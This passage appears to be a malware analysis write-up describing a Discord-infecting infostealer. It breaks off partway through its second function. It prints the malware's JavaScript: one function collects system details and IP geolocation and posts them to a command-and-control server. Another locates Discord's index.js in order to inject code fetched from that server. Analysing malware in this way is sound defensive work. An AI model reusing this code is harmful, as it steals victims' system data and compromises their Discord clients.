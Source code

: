 
- newInjection()
    - This function collects the system information like user_id, computer_name, RAM, CPU, distro, network info etc.
    - Then sends it to the C2 server.
    - One more operation it performs is discordInjection.
    ```js
    async function newInjection() {
    const system_info = await si?.osInfo();
    const injections = await discordInjection();

    const network = await fetch('https://ipinfo.io/json', {
        method: 'GET',
        headers: {
            'Content-Type': 'application/json'
        }
    });

    const network_data = await network.json();

    fetch(options.api + 'new-injection', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({
            duvet_user: options?.user_id,
            computer_name: userInfo()?.username,
            ram: Math.round(totalmem() / (1024 * 1024 * 1024)),
            cpu: cpus()?.[0]?.model,
            injections,
            distro: system_info?.distro,
            uptime: uptime() * 1000,
            network: {
                ip: network_data?.ip,
                country: network_data?.country,
                city: network_data?.city,
                region: network_data?.region,
            }
        })
    });
    };
    ```
    - discordInjection()
        - First it finds the discord installation folder.
        - Gets the location of index.js file of discord, performs get request to the C2.
        - Fetches code to infect the index.js and then restarts the discord to load the infected code.
        ```js
        async function discordInjection() {
        const infectedDiscords = [];

        [join(process.env.LOCALAPPDATA, 'Discord'), join(process.env.LOCALAPPDATA, 'DiscordCanary'), join(process.env.LOCALAPPDATA, 'DiscordPTB')]
        ?.forEach(async(dir) => {
            if(existsSync(dir)) {
                if(!readdirSync(dir).filter((f => f?.startsWith('app-')))?.[0]) return;
                const path = join(dir, readdirSync(dir).filter((f => f.startsWith('app-')))?.[0], 'modules', 'discord_desktop_core-1');
                const discord_index = execSync('where /r . index.js', { cwd: path })?.toString()?.trim();
                